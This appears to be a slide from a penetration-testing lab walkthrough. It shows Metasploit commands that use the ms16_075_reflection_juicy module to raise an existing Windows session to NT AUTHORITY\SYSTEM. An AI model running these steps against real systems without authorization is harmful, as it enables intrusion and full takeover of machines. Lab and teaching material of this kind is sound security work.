

# Privilege Escalation
For this target we have to use following module to successfully escalate the privilege.
windows/local/ms16_075_reflection_juicy
 Steps:
msf> use windows/local/ms16_075_reflection_juicy
msf> set LPORT 9902 (use different port from previous session)
msf> set session 1
msf> exploit
Now we got the privileged user as nt authority\system user, which is admin